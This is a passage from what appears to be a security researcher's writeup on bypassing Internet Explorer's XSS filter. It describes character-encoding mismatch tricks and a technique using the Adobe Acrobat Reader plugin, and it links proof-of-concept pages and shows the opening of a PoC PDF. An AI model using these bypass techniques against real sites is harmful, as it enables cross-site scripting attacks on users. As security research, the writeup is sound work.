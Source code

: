 As with other character codes, a mismatch between the encoded string and the bytes actually sent can be bypassed.

- [https://l0.cm/bypass/ie_hz_text.html](https://l0.cm/bypass/ie_hz_text.html)
- [https://l0.cm/bypass/ie_hz_attribute.html](https://l0.cm/bypass/ie_hz_attribute.html)
- [https://l0.cm/bypass/ie_iso2022jp_text.html](https://l0.cm/bypass/ie_iso2022jp_text.html)
- [https://l0.cm/bypass/ie_iso2022jp_attribute.html](https://l0.cm/bypass/ie_iso2022jp_attribute.html)

(The following is reproduced in an environment where the system locale is Japanese, but it was not reproduced in an environment with a German language. It seems that the operating principle is slightly different from other vectors, but I do not know the clear principle.For reference published in.)

- [https://l0.cm/bypass/ie_0xff_text.html](https://l0.cm/bypass/ie_0xff_text.html)
- [https://l0.cm/bypass/ie_0xff_attribute.html](https://l0.cm/bypass/ie_0xff_attribute.html)

### Using the Adobe Acrobat Reader plug-in (IE only)

Conditions for attacking:

1. Has XSS via POST request
2. Target is using the Adobe Acrobat Reader plugin

Reference URL:

- [https://insert-script.blogspot.com/2017/01/complete-internet-explorer-xss-filter.html](https://insert-script.blogspot.com/2017/01/complete-internet-explorer-xss-filter.html)

PoCs:

[https://l0.cm/bypass/ie_postxss_bypass.pdf](https://l0.cm/bypass/ie_postxss_bypass.pdf)

```
%PDF-1.1
1 0 obj
<<
/Type /Catalog
/Outlines 2 0 R
/Pages 3 0 R
/OpenAction 33 0 R
/AcroForm 22 0 R
>>
endobj
2 0 obj
<<
/Type /Outlines
/Count 0
>>
endobj
3 0 obj
<<
/Type /Pages
/Kids [4 0 R]
/Count 1
>>
endobj
4 0 obj
<<
/Type /Page
/Annot [ 23 0 R ]
/Parent 3 0 R
/MediaBox [0 0 612 792]
/Contents 5 0 R
/Resources <<
/ProcSet [/PDF /Text]
/Font << /F1 6 0 R >>
>>
>>
```